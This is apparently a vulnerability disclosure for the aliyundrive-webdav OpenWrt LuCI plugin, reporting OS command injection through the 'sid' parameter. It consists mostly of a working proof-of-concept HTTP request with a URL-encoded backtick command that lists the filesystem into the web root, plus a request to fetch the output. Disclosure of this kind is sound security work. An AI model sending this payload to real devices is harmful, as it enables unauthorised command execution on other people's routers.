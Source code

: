 ## aliyundrive-webdav OpenWrt plugin has a command injection vulnerability

### Product Information

project: https://github.com/messense/aliyundrive-webdav/

Location of the vulnerability: https://github.com/messense/aliyundrive-webdav/openwrt/luci-app-aliyundrive-webdav/luasrc/controller/aliyundrive-webdav.lua

### Vulnerability Description

When deal with `action_query_qrcode` request,`sid` parameter is vulnerable to OS command injection.

![](img/1.png)

payload:

```http
GET /cgi-bin/luci/admin/services/aliyundrive-webdav/query?sid=%60%6c%73%20%2f%3e%2f%77%77%77%2f%31%32%33%2e%74%78%74%60 HTTP/1.1
Host: 192.168.32.129
Cookie: sysauth=41273cb2cffef0bb5d0653592624cf64
Sec-Ch-Ua: "Chromium";v="122", "Not(A:Brand";v="24", "Microsoft Edge";v="122"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36 Edg/122.0.0.0
Sec-Ch-Ua-Platform: "Windows"
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://192.168.32.129/cgi-bin/luci/admin/services/aliyundrive-webdav/client
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close


```

inject the command "`ls />/www/123.txt`"

![](img/2.png)

check the result

```http
GET /123.txt HTTP/1.1
Host: 192.168.32.129
Cookie: sysauth=41273cb2cffef0bb5d0653592624cf64
Sec-Ch-Ua: "Chromium";v="122", "Not(A:Brand";v="24", "Microsoft Edge";v="122"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36 Edg/122.0.0.0
Sec-Ch-Ua-Platform: "Windows"
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://192.168.32.129/cgi-bin/luci/admin/services/aliyundrive-webdav/client
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close


```

![](img/3.png)
